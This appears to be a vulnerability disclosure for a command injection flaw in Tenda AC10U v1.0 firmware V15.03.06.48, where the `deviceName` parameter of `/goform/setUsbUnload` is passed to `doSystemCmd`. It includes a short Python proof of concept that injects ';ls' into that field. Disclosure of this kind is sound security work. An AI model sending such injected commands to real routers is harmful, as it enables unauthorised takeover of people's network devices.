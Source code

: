## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

In Tenda AC10U v1.0 Firmware V15.03.06.48 firmware, we discovered a command injection vulnerablility in the `deviceName` parameter and the `usb_name` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `deviceName` can trigger this security vulnerability.

![image-20240313213912075](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313213912075.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setUsbUnload"
payload = ";ls"

data = {"deviceName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313164800839](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313164800839.png)
